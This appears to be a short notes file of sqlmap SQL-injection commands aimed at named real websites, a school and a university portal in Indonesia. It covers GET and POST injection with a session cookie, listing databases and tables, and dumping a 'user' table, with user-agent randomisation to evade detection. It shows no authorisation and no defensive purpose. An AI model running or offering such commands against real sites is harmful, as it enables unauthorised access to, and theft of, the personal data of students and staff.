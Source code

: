 # sqlmap
### method get
```
sqlmap -u "https://smkn1talaga.sch.id/siswa?search=nama" -v 3 --random-agent -v 3 --union-cols=57 --dbs 
```
### method post
```
sqlmap -u "https://sikuli.umri.ac.id/mahasiswa/jadwal/" -v 3 --data="mata_kuliah=i&tahun_ajaran=&hari=" -p "mata_kuliah" --random-agent -v 3 --union-cols=115 --cookie="ci_session=6852t2do4v9ikao3p4il4747ijijjclo" --tables -D daftar --dbs  
```
### show tables
```
sqlmap -u "https://smkn1talaga.sch.id/siswa?search=nama" -v 3 --random-agent -v 3  --union-cols=57 --tables -D smkn_sekolah
```
### Dump Data
```
sqlmap -u "https://smkn1talaga.sch.id/siswa?search=nama" -v 3 --random-agent -v 3  --union-cols=57 --dump -T user -D smkn_sekolah
```

<br><br>
# Manual
